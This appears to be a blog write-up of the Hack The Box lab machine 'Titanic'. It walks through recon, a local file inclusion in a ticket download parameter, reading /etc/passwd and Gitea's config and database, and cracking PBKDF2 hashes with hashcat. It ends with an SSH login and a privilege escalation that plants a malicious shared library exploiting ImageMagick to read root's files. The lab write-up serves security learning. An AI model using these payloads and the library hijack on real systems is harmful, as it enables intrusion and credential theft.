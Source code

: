 ```yaml
---
title: "HTB Lab | Linux - Titanic"
date: 2025-06-25T23:15:00+07:00
draft: false
tags: ["Linux", "HTB", "HTB Machines", "Web", "Hashcat", "Local File Inclusion", "ImageMagick"]
categories: ["CTF Writeups"]
summary: "How I solved Hack The Box's vulnerable machine \"Titanic\"."
---
```

[![htb-titanic-1.png](htb-titanic-1.png#center)](https://app.hackthebox.com/machines/648)

# Reconnaissance

Start the machine, the IP given is `10.10.11.55`. We begin by performing an nmap scan on it, revealing 2 open ports:
```
$ nmap -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-25 15:29 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```
When visiting `http://10.10.11.55`, it will redirect you to `http://titanic.htb`. Here, add `10.10.11.55 titanic.htb` to your `/etc/hosts` file - this resolves the IP as `titanic.htb` automatically.

Exploring the website, we notice there is a form when clicking on "Book Your Trip". 

![htb-titanic-2.png](htb-titanic-2.png#center)

Filling in garbage information and submit, a JSON file is downloaded. Viewing it shows the information that we just inputted. My initial suspicision was a vulnerability in the actual input fields, but this yields no result. 

# Web Exploitation
I turn to using Burp Suite to intercept the requests upon clicking 'Submit', revealing a `POST http://titanic.htb/book` and `GET http://titanic.htb/download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json`.

```
GET /download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Notice that the downloaded file is explicitly shown in the URL. Send this request over to Burp Suite's Repeater, and test for [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) by replacing the request as `/download?ticket=/etc/passwd`.

![htb-titanic-3.png](htb-titanic-3.png#center)

As shown, this was successful in revealing the content of `/etc/passwd`. If you are aware or just through pure intuition that this file is for storing user accounts information, you can naively obtain the user flag by finding the user account `developer` and use LFI `/home/developer/user.txt` to output its content. However, in a real attack, it's likely certain we do not know the exact file name or directory of what we are searching for.

# Gaining Access
## Gitea
This part is where I had a much different approach from HTB's official write-up since I did the box while it was still active. The intended solution was to perform **vHost fuzzing** using `gobuster`, whereas I kept inspecting common files using LFI until I stumble upon `/etc/hosts`. Both solutions would lead to the discovery of `dev.titanic.htb` vHost. Similarly, add it to your `/etc/hosts` file with `10.10.11.55`. 

Visiting it in the browser, we find a self-hosted Gitea instance. Clicking on the 'Explore' tab, we find 2 repositories `docker-config` and `flask-app`.

![htb-titanic-4.png](htb-titanic-4.png#center)

Initially, I checked out `docker-config/mysql/docker-compose.yml` which gave me a MySQL root password. Despite being a great find, there were no open MySQL ports from doing another nmap scan, so I could not continue. However, viewing `docker-config/gitea/docker-compose.yml`, we find the path format for the Gitea instance is `/home/developer/gitea/data:/data`.

![htb-titanic-5.png](htb-titanic-5.png#center)

Here, the official write-up for HTB had a better and more consistent approach by setting up the actual Docker instance and searching the Gitea directory structure from there. I had a different approach which involved some digging and a bit of luck, in which I read the official documentation from Gitea on [its configuration](https://docs.gitea.com/administration/config-cheat-sheet). Knowing Gitea typically place its configuration at `/etc/gitea/conf/app.ini` and from the path format specified in the previous step, I deducted that the path on this system would be `/home/developer/gitea/data/gitea/app.ini`. Sure enough, when trying LFI, I am able to obtain its content. Below are the 2 pieces of information that will be needed next:

![htb-titanic-6.png](htb-titanic-6.png#center)

Download the database file `/home/developer/gitea/data/gitea/gitea.db`. Do `SELECT name,passwd,salt,passwd_hash_algo FROM user` and we can find the username, password hash, salt & their hashing algorithm. Referring back to `app.ini`, we can confirm that the algorithm is `PBKDF2`.
```
sqlite> select name,passwd,salt,passwd_hash_algo from user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b|pbkdf2$50000$50
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34|pbkdf2$50000$50
```

## Hash Cracking
Browsing through [Gitea's documentation](https://docs.gitea.com/administration/config-cheat-sheet#security-security), we can determine that the hash went through 50000 iterations.

![htb-titanic-7.png](htb-titanic-7.png#center)

Looking at [Hashcat example hashes & format](https://hashcat.net/wiki/doku.php?id=example_hashes), we now know that we need to use hash-mode 10900 corresponding to `PBKDF2-HMAC-SHA256` which has the format `sha256:iterations:salt:hash`. However, the format requires both the hash and salt to be in base64, whereas the one we have are currently in hexadecimal. Convert them:
```sh
$ echo -n "2d149e5fbd1b20cf31db3e3c6a28fc9b" | xxd -r -p | base64
```
Store all the information in `hashes.txt`:
```
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```
Run the Hashcat to attempt to crack the passwords:
```sh
$ hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```
You will quickly notice that we can only crack the password for the account `developer` which is `25282528`.
```sh
$ hashcat -m 10900 hashes.txt --show                          
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
Recall the original nmap scan where there was an open SSH port. We can SSH into the machine through that as `developer` user.
```
$ ssh developer@10.10.11.55
The authenticity of host '10.10.11.55 (10.10.11.55)' can't be established.
ED25519 key fingerprint is SHA256: .
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:6: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.55' (ED25519) to the list of known hosts.
developer@10.10.11.55's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

developer@titanic:~$ cat user.txt
```

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
	system("cp /root/root.txt root.txt; chmod 777 root.txt");
    exit(0);
}
EOF
```

# Learned Skills
- Practical CVE research and hands-on exploitation of ImageMagick vulnerability on actual Linux web server.
